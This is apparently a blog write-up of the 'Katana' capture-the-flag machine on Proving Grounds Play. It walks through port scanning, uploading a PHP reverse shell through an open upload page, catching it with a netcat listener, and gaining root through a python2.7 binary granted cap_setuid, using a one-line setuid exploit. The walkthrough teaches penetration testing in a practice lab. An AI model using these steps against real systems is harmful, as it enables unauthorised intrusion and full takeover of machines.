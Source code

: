 ```yaml
---
title: "Proving grounds Play: Katana"
layout: post
date: 2023-09-28 01:00
categories: writeup
---
```


Proving grounds Play - Katana CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http    LiteSpeed httpd
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
8715/tcp open  http    nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp - open  ftp - vsftpd 3.0.3

Anonymous login prohibited.

## 80/tcp -  open  http - Apache httpd 2.4.38 ((Debian))

Nothing, but just an image.

![img](/assets/images/CTF/Proving_Grounds/Katana/web-8088.png)

## 8088/tcp - open  http - LiteSpeed httpd

### Directory Fuzzing

Directory fuzzing found multiple files.

```text
http://192.168.197.83:8088/phpinfo.php
http://192.168.197.83:8088/upload.php
http://192.168.197.83:8088/upload.html
```

### upload.html

File upload

![img](/assets/images/CTF/Proving_Grounds/Katana/upload.png)

```text
Please wait for 1 minute!. Please relax!.
File : file1
Name : rshell.php
Type : application/x-php
Path : /tmp/phpSvDMjM
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpSvDMjM ====> /opt/manager/html/katana_rshell.php
MD5  : 8bdfb93257f57669e9aa5b48caffe853
Size : 2589 bytes
File : file2
Name : rshell.php
Type : application/x-php
Path : /tmp/phpaXZwe8
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpaXZwe8 ====> /opt/manager/html/katana_rshell.php
```

Upload the reverse shell and note down the file name. Fuzz for the file on all 3 URLs.

**Trigger**
http://192.168.197.83:8715/katana_rshell.php

```sh
naveenj@hackerspace:|21:35|~/pg-play/Katana/files$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.197.83] 58806
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 21:37:41 up 18 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (407): Inappropriate ioctl for device
bash: no job control in this shell
www-data@katana:/$ 
```
**Initial Foothold Obtained**

## Privilege Escalation

Get the extended capabilities of the linux machine using the below command.

```sh
getcap -r / 2>/dev/null
```

**Capabilities**

```sh
www-data@katana:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

The binary `/usr/bin/python2.7` has extended capabilities which is vulnerable to privilege escalation.
[More](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).

```sh
www-data@katana:~$ getcap -r / 2>/dev/null  #Get capabilities
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
www-data@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");' #Exploit
< 'import os; os.setuid(0); os.system("/bin/bash");'
id
uid=0(root) gid=33(www-data) groups=33(www-data) #Root Obtained
whoami
root
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).